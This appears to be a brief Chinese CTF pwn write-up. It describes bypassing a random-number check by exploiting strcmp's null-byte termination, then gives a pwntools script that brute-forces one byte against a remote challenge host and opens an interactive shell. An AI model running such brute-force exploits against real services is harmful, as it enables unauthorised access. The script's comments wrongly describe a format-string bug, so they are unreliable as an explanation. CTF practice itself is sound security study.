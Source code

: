 他的随机数长这样

![1730036641781](images/2024/2024-10-27-pwn-wp/1730036641781.png)

哈哈哈

不过看看main函数的那个strcmp,这个函数可以绕过

大概思路:输入buf,头一位用来爆破,后边七位用\x00补全(有段时间没看cannary爆破了,抽时间看看)

```python
# 假设Pwnmodules是一个自定义模块，它封装了pwntools的功能，或者是pwntools的一个别名  
from Pwnmodules import *  
import ctypes  
  
# 创建一个远程目标对象，指定IP地址和端口号  
target = Target("27.25.151.80", 33613)  
  
# 设置pwntools的上下文环境，指定日志级别和架构  
context(log_level='debug', arch='amd64')  
  
# 向远程服务发送数据，尝试触发漏洞（可能是格式化字符串漏洞）  
# 这里发送了一个字节0和7个空字节（\x00），可能是为了绕过某些输入验证或填充  
target.sla("please input your text: ", bytes([0]) + b'\x00' * 7)  
  
# 尝试通过遍历0到0xff的字节值来找到能够触发特定响应的输入  
# 这种技术通常用于格式化字符串漏洞的利用中，以泄露内存信息  
for i in range(0xff):  
    try:  
        # 发送数据并等待响应，这里假设服务会返回一个特定的错误消息  
        target.ru("No,guess again!!!")  
        # 再次发送数据，这次是用遍历到的字节值替换第一个字节  
        target.sla("please input your text: ", bytes([i]) + b'\x00' * 7)  
        # 如果到这里没有抛出异常，则继续下一次循环  
        continue  
    except:  
        # 如果捕获到异常（可能是由于服务崩溃、连接断开等），则尝试获取交互式shell  
        # 但这里有一个逻辑问题：一旦进入except块，就会立即尝试获取shell，然后退出循环  
        # 这可能并不是您想要的行为，因为您可能想要记录哪个字节值触发了异常  
        target.inter()  
        # 注意：一旦进入except块并执行了target.inter()，下面的target.inter()将不会被执行  
  
# 下面的target.inter()在上面的循环中如果触发了异常则不会被执行  
# 如果循环正常结束（即没有触发异常），则这里的target.inter()将是唯一尝试获取shell的机会   
target.inter()
```
